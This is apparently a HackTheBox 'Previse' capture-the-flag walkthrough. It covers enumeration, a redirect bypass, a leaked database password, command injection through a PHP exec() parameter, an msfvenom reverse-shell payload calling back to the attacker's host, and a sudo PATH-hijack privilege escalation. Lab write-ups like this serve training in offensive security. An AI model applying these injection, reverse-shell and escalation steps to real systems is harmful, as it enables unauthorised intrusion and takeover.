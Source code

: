 ```yaml
---
description: https://app.hackthebox.eu/machines/373
---
```


# previse

`Nmap` scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

so just 80 for now. the output from `ffuf`

`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -u `[`http://10.129.186.43/FUZZ`](http://10.129.186.43/FUZZ)` -e .php,.txt`

```
index.php               [Status: 302, Size: 2801, Words: 737, Lines: 72]
download.php            [Status: 302, Size: 0, Words: 1, Lines: 1]
login.php               [Status: 200, Size: 2224, Words: 486, Lines: 54]
files.php               [Status: 302, Size: 4914, Words: 1531, Lines: 113]
header.php              [Status: 200, Size: 980, Words: 183, Lines: 21]
nav.php                 [Status: 200, Size: 1248, Words: 462, Lines: 32]
footer.php              [Status: 200, Size: 217, Words: 10, Lines: 6]
status.php              [Status: 302, Size: 2966, Words: 749, Lines: 75]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
accounts.php            [Status: 302, Size: 3994, Words: 1096, Lines: 94]
config.php              [Status: 200, Size: 0, Words: 1, Lines: 1]
logs.php                [Status: 302, Size: 0, Words: 1, Lines: 1]
```

let's go through these files now.

so, when I do `/accounts.php`, it shows me a 302 redirect that is supposed to be protection mechanism for the website :).

So, lets open up `Burp` and see if we can turn on the intercept and see if we can change the `302 FOUND` to `200 OK` and remove the Location header

![](<../../.gitbook/assets/image (11).png>)

![](<../../.gitbook/assets/image (4).png>)

now, we got the following page,

![](<../../.gitbook/assets/image (14).png>)

using this page, we are able to create the account as user `admin1`., and once we do that and login, I'm able to look at a zip file that is on the page at `/files.php`, and we got the source code of the website here.

![](<../../.gitbook/assets/image (3).png>)

```
# config.php

<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

and this in `logs.php`, maybe we can inject something here

```
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";
```

so, looks like this above piece of code is where our entry point is, so lets try to confirm that if we have code execution on the remote server by pinging our self from the target machine and running a 

`sudo tcpdump -i tun0 icmp` on the local machine

![](<../../.gitbook/assets/image (10).png>)

if you see any response on your machine like below, that mostly means we have code execution

![](<../../.gitbook/assets/image (1).png>)

so, after confirming that we have code execution, I've run through couple of payloads to get a `reverse shell` using bash one-liner and `python` as well, but no luck, so I've used the generated payload using `msfvenom`

```
msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.14.19 LPORT=4242 -f elf -o shell
```

and once we generate this, we can just open up a http server on our local machine, and transfer the file to remote using `wget` and mark it as an executable `chmod 777 /tmp/shell` and run it

![](<../../.gitbook/assets/image (15).png>)

once we do that, we get a reverse shell

once we get a reverse shell, we can see that there is a `SQL` server running on the machine, and if you remember, there is a password that we grabbed before for the `SQL` service

![](<../../.gitbook/assets/image (13).png>)

not sure if we'll be able to crack this

![](<../../.gitbook/assets/image (12).png>)

there we go, we got it. let's see if we can crack this, meanwhile in `/var/backups` I found some `gz` files, lets have a look at that before we go into cracking (not much in those `gz` files)

so, we're able to crack the password using `hashcat`, (it took quite some time, unusual for a CTF)

![](../../.gitbook/assets/screenshot-2021-08-13-at-22.45.09.png)

so, we can login into the box as `m4lwhere` user into this box, and its a pretty straight forward stuff after this to get `root`

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.36.48.png)

and if we look closely, we don't see any env reset stuff going on when we run `sudo -l`, so its possible that if we export a `PATH` variable, we might be able to persist it when we run the sudo command.

```
echo "chmod +s /bin/bash" >> ~/gzip
export PATH=$HOME:$PATH
```

once we do this and run the sudo command, `setuid` is turned ON on our `bash` executable, and we can simply run `/bin/bash -p` to get a root shell, and if you want an full ssh shell, you can put your `id_rsa.pub` into the `/root/.ssh/authorized_keys` and we can login using ssh

![](../../.gitbook/assets/screenshot-2021-08-13-at-23.44.01.png)
